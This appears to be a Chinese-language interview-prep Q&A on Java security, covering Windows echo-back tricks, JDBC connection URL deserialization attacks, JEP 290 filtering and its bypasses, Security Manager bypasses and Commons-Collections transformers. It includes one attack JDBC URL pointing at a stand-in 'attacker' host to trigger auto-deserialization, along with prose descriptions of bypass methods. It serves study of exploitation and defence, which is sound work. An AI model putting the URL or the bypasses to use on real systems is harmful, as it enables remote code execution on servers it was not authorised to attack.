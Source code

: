 

### 是否存在针对`windows`的通杀的回显方式

原理类似`linux`的通杀回显，在`windows`中`nio/bio`中有类似于`linux`文件描述符这样的句柄文件

遍历`fd`反射创建对应的文件描述符，利用`sun.nio.ch.Net#remoteAddress`确认文件描述符有效性，然后往里面写数据实现回显



### 是否了解JDBC Connection URL攻击

果我们可以控制`JDBC URI`就可将`JDBC`连接地址指向攻击者事先准备好的恶意服务器，这个服务器可以返回恶意的序列化数据

指定`autoDeserialize`参数为`true`后`MySQL`客户端就可以自动反序列化恶意Payload

使用`ServerStatusDiffInterceptor`触发客户端和服务端的交互和反序列化

```text
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

以上是基本攻击手段，还有一些进阶的内容，例如`allowUrlInLocalInfile`和`detectCustomCollations`参数



### 你知道JDK针对反序列化漏洞做了什么修复嘛

在`JEP 290`中提供一个限制反序列化的类的机制，黑白名单方式，同时限制反序列化深度和复杂度，为 RMI 导出的对象设置了验证机制。具体实现是提供一个全局过滤器，可以从属性或者配置文件中配置。在`ObjectInputStream`类中增加了一个`serialFilter`属性和一个`filterChcek`函数，其中`serialFilter`就可以理解为过滤器



### JEP 290有没有绕过的办法

根据`JEP 290`限制的原理，白名单对象包括了：String,Remote,Proxy,UnicaseRef,RMIClientSocketFactory等

如果目标的`RMI`服务暴漏了`Object`参数类型的方法，且该类在白名单中，我们就可以注入Payload进去以绕过检测

另外还一些骚思路，比如想办法改源码，或用`Java Agent`对某些方法`Hook`并更改等



### 谈谈`Security Manager`的绕过

通过设置参数`java.security.policy`指定`policy`以提权；反射调用`setSecurityManager`修改`Security Manager`以绕过；自定义`ClassLoader`并设置`ProtectionDomain`里面的权限初始化为所有权限以绕过；由于`native`方法不受`Java Security Manager`管控，所以可以调用这些方法绕过
## CC链
### 谈下CC链中三个重要的`Transformer`

`ConstantTransformer`类的`transform`方法直接返回传入的类对象

`ChainedTransformer`类中的`transform`方法会链式调用其中的其他`Transformer.transform`方法

`InvokerTransformer`类根据传入参数可以反射调用对应的方法

`InstantiateTransformer`类可以直接实例化对象


